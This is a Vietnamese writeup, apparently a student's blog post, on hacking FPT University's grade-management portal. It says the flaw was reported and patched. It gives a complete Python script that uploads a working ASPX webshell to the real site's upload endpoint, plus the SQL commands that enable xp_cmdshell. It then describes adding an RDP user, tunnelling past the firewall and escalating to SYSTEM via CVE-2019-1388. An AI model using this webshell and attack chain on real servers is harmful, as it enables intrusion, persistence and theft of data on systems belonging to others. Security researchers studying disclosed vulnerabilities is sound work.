 # Tôi đã hack trang quản lý điểm của FPT như thế nào?

> Lỗ hổng đã report và được vá

> Do tình trạng dịch đang bùng phát nên sinh viên học sinh toàn quốc được nghỉ học, mình có nhiều thời gian rảnh rỗi để vọc này kia, thế là quyết định lấy con FAP của trường ra thông thử

<img src="fap.fpt.png">

* Đây là giao diện của website, sau khi login thì mình F12 view-source xem có gì hay ho không thì phát hiện ra 1 url 

<img src="view-source.fpt.png">

`/SRS/AddQA.aspx`

* Truy cập vào là một giao diện ý kiến của mình gửi cho nhà trường và có form upload

<img src="form-upload.fpt.png">

* Do ở đây mình không biết chính xác subject code các kiểu nên intercept nó lại và đẩy vào burpsuite để bắt request response của nó xem như thế nào

<img src="burpsuite.fpt.png">

* Thì phát hiện ra một số param và endpoint để tấn công

  * Thứ nhất:
  
 ```
Content-Type: multipart/form-data;
 boundary=---------------------------324402796424983 -----------------------------324402796424983 
Content-Disposition: form-data; name=“ctl00mainContentmainContentfileUpLoad”; filename=“1.aspx”
aaa-----------------------------324402796424983 Content-Disposition: form-data; name=“ctl00mainContentmainContentbtnUpLoad”

Send Question
```

* Có params và content-type để gửi file
  
  * Thứ 2:
  
    <img src="params&content-type.fpt.png">
  
  * Request mình upload file lên sẽ được xử lý ở upload.aspx và lưu trong /temp/MOOC/‘tên file’
Ý tưởng là sẽ dùng params có sẵn ở request để post file lên server thông qua upload.aspx, payload python đơn giản để test thử con shell:
```py
import requests

url = "http://fap.fpt.edu.vn/SRS/upload.aspx"
payload = """<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Sub RunCmd(Src As Object, E As EventArgs)
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments=xcmd.text
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  myProcess.Close()
  mystring=replace(mystring,"<","&lt;")
  mystring=replace(mystring,">","&gt;")
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub
</script>

<html>
<body>
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\\windows\\system32\\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>"""
files = [('ctl00$mainContent$fileUpLoad', ('1.aspx', payload, 'image/jpeg')), ('ctl00$mainContent$btnUpLoad', ('1.aspx', 'Send Question'))]


headers = {
  'Host': 'fap.fpt.edu.vn',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0 Waterfox/56.3',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Connection': 'close',
  'Upgrade-Insecure-Requests': '1',
  'Cache-Control': 'max-age=0',
  'Content-Length': '300'
}

response = requests.post(url, headers=headers, files=files)

print(response.text)
```

* Sau khi thực thi payload kết quả trả về:

<img src="payload.fpt.png">
  
* Url trả về cho thấy mình đã post được con shell lên server tiếp theo là access con shell qua url trả về

<img src="shell.fpt.png">

<img src="web.config.fpt.png">

* Sau khi dùng string connect thành công, ở đây là user SA thì có khả năng đủ quyền để enable hàm xp_cmdshell trên mssql, sau đó gọi đến command line và thực thi lệnh

```
- EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

<img src="rce.fpt.png">

* Vậy là đã RCE thành công, tiếp tục là add user vô rdp

<img src="add-user.fpt.png">

* Vậy là đã tạo được user trên server. Bước tiếp theo khá là quan trọng vì port rdp được bảo vệ bởi firewall, mình không thể connect từ ngoài vào được, nên mình sẽ sử dụng kĩ thuật tunnel

* Cơ chế hoạt động của Tunna như sau:

<img src="tunna-rdp-fpt.png">

* Hiểu nôm na là hacker sẽ thông qua 1 con webshell đã được gắn trên server, vượt qua firewall, và đem port trong local ra ngoài để mạng mình có thể connect tới,

* Sau khi Tunnel thành công mình đã connect được rdp qua tài khoản và mật khẩu vừa tạo

<img src="connect-rdp.fpt.png">

* Chưa dừng ở đây, do bản server win dùng khá củ nên mình thử sử dụng exploit leo quyền CVE-2019-1388, lỗi này leo quyền logic dựa trên Windows Certificate Dialog

<img src="system.fpt.png"> 

> Kết quả là đã leo lên quyền system thành công!


